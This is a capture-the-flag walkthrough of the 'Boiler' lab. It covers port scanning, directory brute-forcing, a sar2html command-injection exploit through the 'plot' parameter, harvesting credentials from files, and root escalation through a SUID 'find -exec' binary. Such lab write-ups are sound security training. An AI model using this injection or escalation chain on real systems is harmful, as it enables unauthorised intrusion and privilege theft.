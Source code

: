 # recon.
Like always, start with nmap. I use my own tool to automate nmap scan, check it out [pymap](https://github.com/gu2rks/pymap)
```console
$ python3 pymap.py -t $IP --all
```
there are 4 open port:
- 21/tcp    open  ftp
- 80/tcp    open  http
- 10000/tcp open  snet-sensor-mgmt
- 55007/tcp open  ssh


## port 21
from nmap scan you should note that FTP is open for Anonymous log in. (`ftp-anon: Anonymous FTP login allowed (FTP code 230)`) so let check it out:
```console
bibo318@parrot:~/THM/boiler$ ftp $IP 
Connected to 10.10.108.17.
220 (vsFTPd 3.0.3)
Name (10.10.108.17:kali): Anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Aug 22  2019 .
drwxr-xr-x    2 ftp      ftp          4096 Aug 22  2019 ..
-rw-r--r--    1 ftp      ftp            74 Aug 21  2019 .info.txt
226 Directory send OK.
ftp> get .info.txt
local: .info.txt remote: .info.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for .info.txt (74 bytes).
226 Transfer complete.
74 bytes received in 0.00 secs (29.5565 kB/s)
```
now back to kali:
```
bibo318@parrot:~/THM/boiler$ cat .info.txt 
Whfg jnagrq gb frr vs lbh svaq vg. Yby. Erzrzore: Rahzrengvba vf gur xrl!
```
from the looks of the cipher, you can already tell that it is a substitution cipher. substitution cipher works in a way that it "rotate" each character. 

Any how the message was
```
Just wanted to see if you find it. Lol. Remember: Enumeration is the key!
```
seem like we got trolled by the room creater... so let move on to the next port.

## Port 80
Like always start fire up ur gobuster or ur favorite web directory brute forcing tool
```console
$ gobuster dir -u http://$IP/ -w /usr/share/SecLists/Discovery/Web-Content/big.txt -x .php,.txt,.html -t 54
```
While you are waiting for the result, go explore the web (happy path). I found something in  `robots.txt`
```
User-agent: *
Disallow: /

/tmp
/.ssh
/yellow
/not
/a+rabbit
/hole
/or
/is
/it

079 084 108 105 077 068 089 050 077 071 078 107 079 084 086 104 090 071 086 104 077 122 073 051 089 122 085 048 077 084 103 121 089 109 070 104 078 084 069 049 079 068 081 075
```
you can try to decryp the cipher if you want to but I can sell you direcly that you will not get anything out of it. Seem like the `MrSeth6797` (room creator) love to troll us.


anyhow I found out that the web is hosting `/joomla` There is nothing much on the blog. only one post. so let dig more by running gobuster at `/joomla`
```console
$ gobuster dir -u http://$IP/joomla -w /usr/share/SecLists/Discovery/Web-Content/big.txt -x .php,.txt,.html -t 54
```
here is what I found
```
/LICENSE.txt (Status: 200)
/README.txt (Status: 200)
/_a______ (Status: 301)
/_d_____ (Status: 301)
/_f___ (Status: 301)
/_t___ (Status: 301)
/administrator (Status: 301)
/bin (Status: 301)
/build (Status: 301)
/cache (Status: 301)
/cli (Status: 301)
/components (Status: 301)
/configuration.php (Status: 200)
/htaccess.txt (Status: 200)
/images (Status: 301)
/includes (Status: 301)
/index.php (Status: 200)
/installation (Status: 301)
/language (Status: 301)
/layouts (Status: 301)
/libraries (Status: 301)
/media (Status: 301)
/modules (Status: 301)
/plugins (Status: 301)
/templates (Status: 301)
/tests (Status: 301)
/tmp (Status: 301)
/~ww__ (Status: 301)
```
This is my 3rd time working with Joomla. By looking at the results, There is some dikectory that is looks juicy.
1. /administrator: admin login page
2. /_a______ (Status: 301)
3. /_da____ (Status: 301)
4. /_f___ (Status: 301)
5. /_t__ (Status: 301)
6. /~ww__ (Status: 301)


number 2-6 are directories that not included in joomla by defualt which is worth checking.

Since im already done with this room, I can tell you direcly that some of them are just a rabbit hole, `MrSeth6797` just messing with us.

anyhow you will find the "rigth" one on the list above? how do I know that?
1. There is something that it is not there by defualt
2. I found an exploit after I google about it


So the site run `sar2html`. In short, Sar2html is web based frontend for performance monitoring. It converts sar binary data to graphical format and keep historical data in it's library. if you search 

if you search for `sar2html exploit` you will find a RCE exploit which we can use to for farther attack. you can find the exploit [here](https://www.exploit-db.com/exploits/47204)

```
In web application you will see index.php?plot url extension.

http://<ipaddr>/index.php?plot=;<command-here> will execute 
the command you entered. After command injection press "select # host" then your command's 
output will appear bottom side of the scroll screen.
```
so the plan is us this to enumerate the server and hope that we might find some juicy info such as, usernames/password.

so I started with checking for users by checking if it work by execute `whoami`. **BOOM** ! it works !! then I execute `/index.php?plot=;ls ../../../../../home/` the figure below show the result.

![whoami](../pic/Screenshot%202020-08-07%20at%2019.42.36.png)


![users](../pic/Screenshot%202020-08-07%20at%2019.43.14.png)

I found a juicy at `www-data` home directory which contain **Basterd's password**. **Hint**:
<details>log.txt</details>

## foot hold
now ssh to the victim server using Basterd credential. dont forget that ssh is on port 5507. here is what you will find on Basterd home directory
```
$ ls -la
total 16
drwxr-x--- 3 basterd basterd 4096 Aug 22  2019 .
drwxr-xr-x 4 root    root    4096 Aug 22  2019 ..
-rwxr-xr-x 1 stoner  basterd  699 Aug 21  2019 backup.sh
-rw------- 1 basterd basterd    0 Aug 22  2019 .bash_history
drwx------ 2 basterd basterd 4096 Aug 22  2019 .cache
```
You should already tell that `backup.sh` is juicy!!
1. stoner is the owner of the files.
2. the name of the file
3. it is a shell/bash script

Examine `backup.sh`, You will find Stoner's password. Back to kali, ssh to the victim server again but using Stoner's credential this time.
```console
stoner@Vulnerable:~$ ls -la
total 20
drwxr-x--- 4 stoner stoner 4096 Aug  7 21:12 .
drwxr-xr-x 4 root   root   4096 Aug 22  2019 ..
drwx------ 2 stoner stoner 4096 Aug  7 21:12 .cache
drwxrwxr-x 2 stoner stoner 4096 Aug 22  2019 .nano
-rw-r--r-- 1 stoner stoner   34 Aug 21  2019 .secret
```
now grep the user flag (.secret)

# root
You can start with `sudo -l` if you wanna but I can tell you direcly it is just another rabbit whole. `MrSeth6797` he did it again...

The next step is looking for `SUID`, if you dont know what `SUID` is, pls do some research by youself. Anyway, I use suid3num.py to enumerate `SUID`. You can find the tool on github [link](https://github.com/Anon-Exploiter/SUID3NUM). Tranfer the script to victim server and run it
```
[#] SUID Binaries in GTFO bins list (Hell Yeah!)
------------------------------
/usr/bin/find -~> https://gtfobins.github.io/gtfobins/find
------------------------------
```
**MashaAllah**, let use it to get root flag!!
```console
stoner@Vulnerable:~$ find *.py -exec whoami \;
root
stoner@Vulnerable:~$ find *.py -exec ls /root/ \;
root.txt
```
